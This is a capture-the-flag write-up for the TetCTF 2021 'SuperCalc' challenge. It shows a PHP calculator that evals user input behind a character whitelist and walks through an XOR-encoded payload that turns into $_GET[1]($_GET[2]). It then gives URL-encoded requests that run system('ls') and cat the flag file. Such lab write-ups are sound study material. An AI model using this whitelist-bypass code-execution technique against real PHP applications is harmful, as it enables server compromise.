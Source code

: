 # SuperCalc
### TetCTF 2021

calc=// or / or . or .. gives internal server error...

When we don't pass the parameter "calc" in the URL, we get the source code:

``` php
<!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

There's a very strict filter (`^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$`) that only allows:
- numbers (0-9)
- +, -, *, /
- ()
- ', ., ~, ^
- |, &

Hoever, we can maybe bypass it by converting there chars into others via XOR, OR and AND. Example: `'A' ^ '0' = 'q'`

So, we'll create a payload that uses others parameters such as $_GET[1], $_GET[2] etc. This makes it easier to insert any kind of code in the page/server.
We could execute something like `system('ls')` and the payload could be: `$_GET[1]($_GET[2])`. With this, `$_GET[1]` would be our function name (system) and `$_GET[2]` our parameter (ls).

We must find a way to "create" there chars:
`$` = 36
`_` = 95
`G` = 71
`E` = 69
`T` = 84
`[` = 91
`]` = 93

Trying to find the chars with python (findingChars.py), I only obtained 4 of there characters: $, G, E, T... But, with a 2nd round of enconding, it's possible to reach the other 3 chars:
```
'4' & '.' = '$'
'9' ^ '~' = 'G'
'9' ^ '|' = 'E'
'(' ^ '|' = 'T'
===============================
'0' ^ '1' ^ '^' = '_'
'0' ^ '3' ^ '^' = ']'
'0' ^ '5' ^ '^' = '['
```

To get `$_GET[1]($_GET[2])` in the code, we got a preg-matching payload: `('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'`

But now we must reduce its size to be under 70 chars...
`('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` --nesting the ones with only 2 chars and using XOR--> `('4'&'.').('0'^'1'^'^').('99(99('^'~||~||').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` -> not enought (and this one is wrong, but whatever...) :(

To reduce the payload size, we can combine the chars if they all have the same amount of XOR operations.

Redoing all chars to be a combination of 3 XORs (findingChars_XORs.py):
```
'0' ^ '2' ^ '&' = '$'
'0' ^ '1' ^ '^' = '_'
'0' ^ ')' ^ '^' = 'G'
'0' ^ '^' ^ '+' = 'E'
'2' ^ '8' ^ '^' = 'T'
'0' ^ '5' ^ '^' = '['
'0' ^ '3' ^ '^' = ']'
And these are kinda simple, but I'll write them down:
'0' ^ '0' ^ '1' = '1'
'0' ^ '0' ^ '2' = '2'
'0' ^ '0' ^ '(' = '('
'0' ^ '0' ^ ')' = ')'
```

`$_GET[1]` = `('0'^'2'^'&').('0'^'1'^'^').('0'^')'^'^').('0'^'^'^'+').('2'^'8'^'^').('0'^'5'^'^').('0'^'0'^'1').('0'^'3'^'^')` 
= `'00002000' ^ '21)^8503' ^ '&^^+^^1^'` (nesting the XOR operations)
Similarly, `($_GET[2])` = `'0000020000' ^ '021)^85030' ^ '(&^^+^^2^)'`

Writting them together: `$_GET[1]($_GET[2])` = `'000020000000020000' ^ '21)^8503021)^85030' ^ '&^^+^^1^(&^^+^^2^)'`

Now, we finally have a payload:
` calc='000020000000020000'^'21)^8503021)^85030'^'&^^+^^1^(&^^+^^2^)'&1=system&2=ls `

URL encoding: `%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=ls`

And, IT WORKS!!!
``` html
Result: fl4g1sH3re.php index.php index.php
```

Now, we just have to read flagshere.php using `%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=cat+fl4g1sH3re.php`

There it is:
``` php
<?php

$flagflagflagflagflagflag = "TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}";

?>
```

**FLAG: `TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}`**